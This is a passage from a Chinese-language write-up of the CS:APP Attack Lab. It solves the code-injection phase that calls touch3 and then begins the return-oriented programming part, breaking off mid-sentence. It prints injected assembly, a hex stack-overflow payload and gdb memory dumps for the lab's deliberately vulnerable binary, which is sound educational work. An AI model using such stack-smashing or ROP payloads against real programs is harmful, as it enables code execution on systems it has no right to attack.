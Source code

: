 这个函数将我们的cookie作为val传入，并通过`sprinf()`转化为字符串存储在字符串指针`s`中，并和我们传入的字符串指针进行内容比较。

因此通过倒推可以发现，我们需要把cookie值的字符串形式作为参数传入`touch3()`，作为实验成功的必要条件，在上一部分中已经完成。但是，这一部分调用`hexmatch()`函数后，`%rsp`的值会发生变化，因此需要将cookie的字符串表示值存储在无法被覆盖的内存区域。

因此，我们需要做的工作有：
1. 将注入代码起始地址、字符串、`touch3()`函数的入口地址都存放到内存中
2. 将字符串起始地址写入`%rdi`中
3. 修改`%rsp`的值
4. 调用`retq`指令，跳转到`touch3()`函数，传入字符串的地址进行比较。汇编形式如下：

```asm
# code3.s
movq <ADDR_STR>, %rdi
movq <ADDR_NEW_RSP>, %rsp
retq
```

因此我们组织栈的内容如下：

```bash
0x5561dc78:     0xfa    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0xc7    0xc7    0x80    0xdc    0x61    0x55    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

成功通过测试。在`0x401854`处设置断点，运行到断点位置时查看上述内存区域：

```bash
(gdb) x /48xb 0x5561dc78
0x5561dc78:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dc80:     0x35    0x39    0x62    0x39    0x39    0x37    0x66    0x61
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0xc7    0xc7    0x80    0xdc    0x61    0x55    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

可以发现由于我们注入的`retq`指令调用后，栈指针向高地址移动后，原来的内容被覆盖了，因此实验讲义的advice提示我们要再三考虑存放cookie字符串的位置。

## Part II: Return-Oriented Programming

这部分实验中增加了难度：

1. 栈采用随机化，因此每次运行时栈的地址是不确定的，无法将PC指向buffer的位置；
2. 栈区的代码是不可执行的，因此即使注入了代码也会出现segmentation fault。

但是实验提供了另一种方案，参考讲义。

## Level 2

这部分实验需要实现Phase2的攻击。讲义的advice中提示栈中需要组织Gadget的地址和数据的混合，因此尽管逻辑上Gadget的地址组成一个链表，但是实际上我们需要把要传入的数据和Gadget地址进行混合。Gadget中可以使用`movq`指令，但是指令源寄存器数据只能由我们自己传入，因此直觉上来说数据应该这样组织：
